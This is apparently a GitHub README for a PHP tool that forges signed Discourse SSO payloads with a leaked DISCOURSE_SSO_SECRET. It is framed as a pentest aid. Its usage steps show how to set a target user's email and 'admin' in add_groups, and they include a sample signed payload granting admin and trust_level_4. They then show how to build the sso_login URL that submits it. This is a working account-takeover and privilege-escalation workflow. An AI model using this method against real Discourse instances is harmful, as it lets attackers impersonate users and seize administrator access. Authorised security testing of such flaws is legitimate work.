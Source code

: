 # Discourse SSO Payload Generator

## Description
Recently while conducting a pentest on a web application that utilizes Discourse, I stumbled across an error page that dumped a stack trace, server-side code, and environment variables including the `DISCOURSE_SSO_SECRET`. After a little reverse engineering of the code, this PHP script was crafted to generate and sign SSO payloads for Discourse, allowing you to test SSO functionality, authentication flows, and potential privilege escalation scenarios. It uses the `DISCOURSE_SSO_SECRET` to create valid and signed SSO payloads.

---

## Features
- Generate SSO payloads for existing users.
- Customize user attributes such as `email`, `external_id`, `name`, and `add_groups`.
- Sign payloads with the `DISCOURSE_SSO_SECRET`.
- Use crafted payloads to test authentication and privilege escalation.

---

## Usage

### Prerequisites
- PHP installed on your system.
- Access to the `DISCOURSE_SSO_SECRET` from the Discourse configuration.

### Steps
1. **Clone the Repository**:
   ```bash
   git clone https://github.com/quantumthe0ry/Discourse_SSO_Generator.git
   cd Discourse_SSO_Generator
2. **Edit the script**:
   - Open the script (`discourse_sso_gen.php`) and replace `YOUR_DISCOURSE_SSO_SECRET` with the actual secret key.
   - Modify the `$userData` array to include the desired user details:
   ```bash
   $userData = [
    'nonce' => 'valid_nonce_value', // Replace with a valid nonce
    'email' => 'target_user@example.com',
    'external_id' => '1234',
    'name' => 'Target User',
    'add_groups' => 'admin' // Optional: Add or remove groups
   ];
3. **Run the script**:
    ```bash
    php discourse_sso_gen.php
4. **Output: The script will generate a signed SSO payload and display it in the format**:
    ```bash
    SSO Payload:
sso=bm9uY2U9MzMzNjY2OTk5JmVtYWlsPWVtYWlsJTQwZW1haWwuY29tJmV4dGVybmFsX2lkPTkxOTMmbmFtZT1Kb2huK0RvZSZhZGRfZ3JvdXBzPXRydXN0X2xldmVsXzQlMkNhZG1pbg==
sig=aadd147e5ef9a5ac6c52e0cbd786d61e1a288fc01728364ff97e53cdf3652738
5. **Construct the SSO URL**:
    ```bash
    https://your-discourse-instance.com/session/sso_login?sso=<base64_encoded_payload>&sig=<signature>
6. **Test the Payload**:
    - Use the constructed URL to send the crafted payload to the Discourse SSO endpoint.


